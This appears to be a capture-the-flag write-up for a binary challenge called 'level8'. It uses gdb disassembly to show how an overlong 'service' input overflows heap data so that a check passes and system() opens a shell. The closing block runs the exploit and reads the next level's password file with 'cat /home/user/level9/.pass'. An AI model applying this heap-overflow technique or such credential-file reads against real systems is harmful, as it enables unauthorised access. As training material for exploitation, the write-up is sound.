 ## level8
In `level8` as opposed to the others the call to `system()` is inside the `main()` function, running the program will make it print *nil nil* and when we try to disassembly the program the disassembled code it's huge comparing to the others, so going through it with __gdb__ we will see some texts that we could think to be the inputs to pass to this program<br>
```
0x080485c1 <+93>:	mov    eax,0x8048819
(gdb) x/s 0x8048819
0x8048819:	 "auth "
```
Righ after this I was faced with some *assembly code* that looks very weird to me *(probably because I don't speack it very well)*
```
0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x080485d1 <+109>:	seta   dl
0x080485d4 <+112>:	setb   al
```
After some search  I could find this post [SO](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb/44630741) that could clarify some parts and made me understand that it was comparing a string character by charater,<br> *why bother? why not just call `strcmp`?* maybe to try to make it more complicated ? and there are also a bunch of *flags* being set in this way of doing the comparasion.<br> The next string we will find in the dissableded code:
```
=> 0x08048642 <+222>:	lea    eax,[esp+0x20]
   0x08048646 <+226>:	mov    edx,eax
   0x08048648 <+228>:	mov    eax,0x804881f
   0x0804864d <+233>:	mov    ecx,0x5
   0x08048652 <+238>:	mov    esi,edx
   0x08048654 <+240>:	mov    edi,eax
   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:	seta   dl
   0x0804865b <+247>:	setb   al
   
(gdb) x/s 0x804881f
0x804881f:	 "reset"
```
And the next
```
   0x0804867e <+282>:	mov    eax,0x8048825
   0x08048683 <+287>:	mov    ecx,0x6
   0x08048688 <+292>:	mov    esi,edx
   0x0804868a <+294>:	mov    edi,eax
   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:	seta   dl
   0x08048691 <+301>:	setb   al
   
(gdb) x/s 0x8048825
0x8048825:	 "service"
```
And the last one
```
   0x080486bb <+343>:	mov    eax,0x804882d
   0x080486c0 <+348>:	mov    ecx,0x5
   0x080486c5 <+353>:	mov    esi,edx
   0x080486c7 <+355>:	mov    edi,eax
   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:	seta   dl
   0x080486ce <+362>:	setb   al
   
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
To get the flag in this level you have to login as ``` `auth ` ``` the `' '` at the end of `auth` is important after this you will see the start __address__ where the string *`auth `* is put
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
```
After this we have two options, we can either enter *service plus any number greater than 15 (memory alignment)
```
service AAAAAAAAAAAAAAA OR service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$
``` 
or we can enter
```
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$
```
At the beginig of the program we can see a call to `malloc()` and the __address__:
```
 0x080485eb <+135>:	call   0x8048470 <malloc@plt>
 0x080485f0 <+140>:	mov    ds:0x8049aac,eax
```
This __address__ `0x8049aac` will be shared by *`auth `* and *`service`* then at the end of the program just before the `system()` call we will see this __address__ again
```
=> 0x080486e2 <+382>:	mov    eax,ds:0x8049aac
   0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:	test   eax,eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
```
and if we check this address we will recognize it from the command line:
```
(gdb) x/4xw 0x8049aac
0x8049aac <auth>:	0x0804a008	0x0804a028	0x00000000	0x00000000
```
We can see that this is the address that we are writing to when we enter ``` `auth ` ``` and `service` as the arguments to the program, we can see from the snippet above that the program is loading this __address__ to the register `eax` and then adding `0x20` to it:

|Address|||
|---|---|---|
|0x8049aac| =| 0x0804a008|
|0x0804a008|+| 0x20|
|0x0804a028|||

So if we write enough characters to `0x0804a008` we will put a `\n` at the end of the buffer and the ` 0x080486ea <+390>:	test   eax,eax` will evalutates to not equal so the program will not jump and will execute the call to `0x080486f5 <+401>:	call   0x8048480 <system@plt>` what will gives us a *shell* to `level9`
```
~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
